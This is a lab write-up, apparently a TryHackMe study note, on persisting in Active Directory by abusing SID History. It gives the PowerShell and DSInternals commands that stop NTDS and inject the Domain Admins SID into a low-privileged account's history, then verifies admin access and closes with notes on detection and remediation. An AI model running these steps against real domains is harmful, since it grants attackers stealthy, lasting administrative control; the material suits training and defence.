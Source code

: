 # Persistence Through SID History

## Recap: What Are SIDs?

Security Identifiers (SIDs) are used to track security principals and manage account access to resources. An interesting attribute on accounts is **SID History**.

## Legitimate Use of SID History

SID History allows an account's access to be cloned to another account. This is useful during Active Directory (AD) migrations, enabling users to retain access to resources in the original domain while being migrated. In the new domain, the user gets a new SID, but their old SID is added to the SID History, allowing continued access to previous resources.

## Abusing SID History for Persistence

Attackers can abuse SID History for persistence:

- **SID History can include any SID**, not just those from other domains.
- **Domain Admin privileges** (or equivalent) are usually required to perform this attack.
- When an account logs on, all SIDs (including those in SID History) are added to the user's token, granting associated privileges.
- Injecting the **Enterprise Admin SID** can elevate privileges across all domains in the forest.
- Privileges are granted even if the account is not a member of the actual group, making this a stealthy persistence method.
- Attackers can use one account to alter the SID History of another, making detection and remediation harder.

---

## Forging SID History

### 1. Check Existing SID History

```powershell
Get-ADUser <your ad username> -Properties sidhistory,memberof
```

Example output (no SID History set):

```
DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
Enabled           : True
MemberOf          : {CN=Internet Access,OU=Groups,DC=za,DC=tryhackme,DC=loc}
SID               : S-1-5-21-3885271727-2693558621-2658995185-1429
SIDHistory        : {}
```

### 2. Get the SID of the Domain Admins Group

```powershell
Get-ADGroup "Domain Admins"
```

Example output:

```
Name : Domain Admins
SID  : S-1-5-21-3885271727-2693558621-2658995185-512
```

### 3. Add SID History Using DSInternals

> **Note:** Mimikatz no longer reliably patches LSASS for SID History. Use DSInternals to patch the `ntds.dit` AD database directly.

```powershell
Stop-Service -Name ntds -Force
Add-ADDBSidHistory -SamAccountName '<low-privileged username>' -SidHistory '<SID to add>' -DatabasePath C:\Windows\NTDS\ntds.dit
Start-Service -Name ntds
```

- The NTDS database is locked while the NTDS service is running.
- Restart the NTDS service after patching, or authentication will fail network-wide.

---

## Verifying Persistence

SSH into a workstation with the low-privileged credentials and check SID History:

```powershell
Get-ADUser aaron.jones -Properties sidhistory
```

Example output:

```
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512}
```

Test access:

```powershell
dir \\thmdc.za.tryhackme.loc\c$
```

If successful, the low-privileged account now has Domain Admin access.

---

## Detection and Remediation

- The SID History attribute is visible in AD Users and Groups snap-in but **cannot be removed** via the GUI, even with highest privileges.
- Use AD-RSAT PowerShell cmdlets to remove malicious SID History.
- Detection is difficult: regular tools do not flag users with elevated SIDs in SID History.
- SID History is only applied at authentication, making it stealthy.

**Incident Response Example:**  
After a domain takeback (rotating `krbtgt`, removing tickets, rebuilding CA), attackers may still have DA access via SID History on a low-privileged account. This is a challenging scenario for defenders.
